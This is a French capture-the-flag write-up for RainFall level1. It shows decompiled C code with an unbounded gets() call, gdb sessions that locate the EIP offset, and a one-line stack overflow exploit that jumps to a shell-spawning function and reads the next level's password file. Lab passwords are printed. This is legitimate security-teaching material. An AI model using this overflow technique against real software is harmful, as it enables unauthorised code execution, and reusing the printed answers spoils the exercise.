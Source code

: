 # level1 :

pass : `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a`

## Source :

```c
#include <stdio.h>

void main() {  // 0x08048480
	char string[64];  // esp+0x10 - size = 0x50-0x10
	gets(string);
}

void run() {  // 0x08048444
	fwrite("Good... Wait what?\n", 1, 19, stdout);
	system("/bin/sh");
}
```

## Recherche :

On voit que si on lui envoi une chaine très longue, le programme segfault.

```sh
(gdb) r < <(python -c 'print "A"*100')
Starting program: /home/user/level1/level1 < <(python -c 'print "A"*100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Aussi on peut observer que le programme à planter car il a essayé d'aller executer l'adresse `0x41414141`, qui est "AAAA".

Pour faire ceci, c'est qu'on a réécrit dans le registre `EIP` qui indique où sera exécuté la prochaine partie du code.

Avec ces images, on comprends mieux comment ceci s'est passé :

![](https://www.corelan.be/wp-content/uploads/2010/09/image_thumb24.png)

![](https://camo.githubusercontent.com/3862e2874666eb632fad1ab3f16b420b3c558344/68747470733a2f2f692e696d6775722e636f6d2f527868674459762e706e67) 

On va donc chercher à partir de quel caractère on écrit sur l'`EIP`

```sh
(gdb) r < <(python -c 'print "A"*64 + "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level1/level1 < <(python -c 'print "A"*64 + "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"')

Program received signal SIGSEGV, Segmentation fault.
0x46454443 in ?? ()
```

On voit `0x46454443`, soit "CDEF", on a donc réécrit à partir du 64 + 10 + 2 = 76<sup>ème</sup> caractère.

#### PEDA USAGE

> Pour trouver ceci de manière plus rapide, il existe un outil de `peda` : `pattern` qui permet de créer des patterns et de les rechercher par la suite.
> - `pattern create <size>` pour la creation de pattern
> - `pattern search` pour retrouver la pattern

```sh
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(python -c 'print "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"')
Starting program: /home/kali/rainfall/level1 < <(python -c 'print "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]                                                                    
EAX: 0xbffff230 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0xb7fb7580 --> 0xfbad2088 
EDX: 0xbffff294 --> 0x0 
ESI: 0xb7fb7000 --> 0x1dfd6c 
EDI: 0xb7fb7000 --> 0x1dfd6c 
EBP: 0x65414149 ('IAAe')
ESP: 0xbffff280 ("AJAAfAA5AAKAAgAA6AAL")
EIP: 0x41344141 ('AA4A')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)                                                                   
[-------------------------------------code-------------------------------------]                                                                    
Invalid $PC address: 0x41344141
[------------------------------------stack-------------------------------------]                                                                    
0000| 0xbffff280 ("AJAAfAA5AAKAAgAA6AAL")
0004| 0xbffff284 ("fAA5AAKAAgAA6AAL")
0008| 0xbffff288 ("AAKAAgAA6AAL")
0012| 0xbffff28c ("AgAA6AAL")
0016| 0xbffff290 ("6AAL")
0020| 0xbffff294 --> 0x0 
0024| 0xbffff298 --> 0xb7fb7000 --> 0x1dfd6c 
0028| 0xbffff29c --> 0x0 
[------------------------------------------------------------------------------]                                                                    
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41344141 in ?? ()
gdb-peda$ pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 72
EIP+0 found at offset: 76
Registers point to pattern buffer:
[EAX] --> offset 0 - size ~100
[ESP] --> offset 80 - size ~20
Pattern buffer found at:
0x0804a1a0 : offset    0 - size  100 ([heap])
0xbffff230 : offset    0 - size  100 ($sp + -0x50 [-20 dwords])
References to pattern buffer found at:
0xb7fb758c : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xb7fb7590 : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xb7fb7594 : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xb7fb7598 : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xb7fb759c : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xbffff0a4 : 0x0804a1a0 ($sp + -0x1dc [-119 dwords])
0xbffff148 : 0x0804a1a0 ($sp + -0x138 [-78 dwords])
0xbffff220 : 0xbffff230 ($sp + -0x60 [-24 dwords])
```

Où l'on retrouve bien le même résultat : `EIP+0 found at offset: 76`

```sh
(gdb) r < <(python -c 'print "\x90"*76+"ABCD"')
Starting program: /home/user/level1/level1 < <(python -c 'print "\x90"*76+"ABCD"')

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```

On est bon, on doit juste remplacer "ABCD" par l'adresse de `run`. Aussi on remarque que l'adresse est inversée. C'est normal, on est en little endian.

Pour tester, on va mettre un breakpoint à la fonction `run`, et essayer d'accéder à l'adresse `0x804844a` :

```sh
(gdb) b run
Breakpoint 1 at 0x804844a
(gdb) r < <(python -c 'print "\x90"*76+"\x4a\x84\x04\x08"')
Starting program: /home/user/level1/level1 < <(python -c 'print "\x90"*76+"\x4a\x84\x04\x08"')

Breakpoint 1, 0x0804844a in run ()
(gdb) c
Continuing.
Good... Wait what?

Program received signal SIGSEGV, Segmentation fault.
0x0804847e in run ()
```

On est bon ! Il reste plus qu'à passer à l'exploit.

## Exploit :

```sh
level1@RainFall:~$ (python -c 'print "\x90"*76+"\x4a\x84\x04\x08"'; cat) | ./level1 
Good... Wait what?
whoami
level2
cd ../level2
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

----

## Documentation :

* [buffer-overflow-code](https://reverseengineering.stackexchange.com/questions/2995/illegal-instruction-exploiting-sample-buffer-overflow-code)
* [tutorial Exploit Stack Based Overflows](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
* [Comment passer les arguments au programme ?](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection/13929#13929)
